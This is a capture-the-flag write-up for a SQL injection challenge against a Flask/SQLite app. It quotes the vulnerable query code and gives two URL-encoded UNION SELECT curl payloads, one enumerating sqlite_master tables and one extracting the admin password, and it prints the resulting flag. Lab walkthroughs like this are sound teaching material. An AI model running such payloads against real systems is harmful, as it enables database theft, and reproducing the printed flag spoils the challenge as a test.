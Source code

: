# SQL Injection 4 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a Flask-based web server connected to a temporary SQLite database. The app allows us to input a `query` parameter that is inserted directly into an SQL `LIKE` clause.

Our goal is to extract the flag stored in a dynamically named table (e.g., `users_7505663899`), which contains the admin's password as the flag.

---

## 🔍 Source Code Analysis

Here's what matters:

```python
query = flask.request.args.get("query", "%")
sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
```
- The query input is not sanitized, and is directly injected into a SQL query.
- This makes it vulnerable to SQL Injection.
- The admin's password (flag) is stored in a random users_* table created as:

```
random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
```

---

## Exploitation Steps
### Step 1: Enumerate Tables
Payload (URL-encoded):
```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20--"
```
Response:
```
Results:
users_7505663899
```
We now know the target table name: users_7505663899.

### Step 2: Extract the Flag
Payload (URL-encoded):
```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users_7505663899%20WHERE%20username=%27admin%27%20--"
```
Response:
```
Results:
pwn.college{QUTh7W8kmKT8fMNQQy8CiFYZCf3.QXykzMzwSM0IzMyEzW}
```
---

## Flag

``` bash
pwn.college{QUTh7W8kmKT8fMNQQy8CiFYZCf3.QXykzMzwSM0IzMyEzW}
```
---
